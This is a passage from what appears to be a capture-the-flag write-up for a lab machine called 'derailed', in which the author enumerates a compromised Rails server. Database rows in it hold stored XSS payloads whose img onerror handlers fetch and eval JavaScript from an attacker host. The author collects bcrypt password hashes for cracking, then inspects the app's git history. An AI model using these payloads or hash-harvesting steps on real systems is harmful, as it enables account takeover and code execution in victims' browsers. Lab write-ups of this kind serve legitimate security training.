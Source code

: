     136|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$EEMTawRNufRV.QTSKpiXlua7g4G5UqY17RYLLJXqekpjAmu66pFB2|user|2023-07-19 22:10:31.450989|2023-07-19 22:10:31.450989
    137|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js');" />|$2a$12$LDqjlFDkH9dtnyz.vmSOre/vC6W3kXHfISd1mi3YbQCjQBnd.t3ia|user|2023-07-19 22:20:08.616202|2023-07-19 22:20:08.616202
    138|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {console.log(t)});" />|$2a$12$Uysq4iRq0bvaS0LpTjQ/xO7WdTlENRoXSzBC1eXrzcrlMMuuJLNR2|user|2023-07-19 22:24:40.228790|2023-07-19 22:24:40.228790
    139|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$F3tZMI3INzmBIfbmlHEXQOQ7IBlE8Qb9TjkWOzVZffI81WGuQAYzC|user|2023-07-19 22:36:30.880049|2023-07-19 22:36:30.880049


I'll grab those two hashes.

There's also a Git repo in the `rails-app` directory:



    rails@derailed:/var/www/rails-app$ git log
    commit 5ef649cc9b81893b070c607bdca5e6ed4370b914 (HEAD -> master)
    Author: gituser <gituser@local>
    Date:   Sat May 28 15:01:14 2022 +0200

        init

    commit 61995bf40dcb332b8979adc32152d73e5546e40c
    Author: gituser <gituser@local>
    Date:   Fri May 27 21:06:07 2022 +0200

        init

    commit 15df0becc4d8fc989bda8c154637d183258d3af0
    Author: gituser <gituser@local>
    Date:   Thu May 19 21:41:04 2022 +0200

        init



In the first two commits, there's a file `db/seeds.rb`. In `15df0bec`
it's just the default:



    rails@derailed:/var/www/rails-app$ git checkout 15df0becc4d8fc989bda8c154637d183258d3af0 -f
    ...[snip]...
    HEAD is now at 15df0be init
    rails@derailed:/var/www/rails-app$ ls db/
    development.sqlite3  migrate  schema.rb  seeds.rb
    rails@derailed:/var/www/rails-app$ cat db/seeds.rb 
    # This file should contain all the record creation needed to seed the database with its default values.
    # The data can then be loaded with the bin/rails db:seed command (or created alongside the database with db:setup).
    #
    # Examples:
    #
    #   movies = Movie.create([{ name: 'Star Wars' }, { name: 'Lord of the Rings' }])
    #   Character.create(name: 'Luke', movie: movies.first)
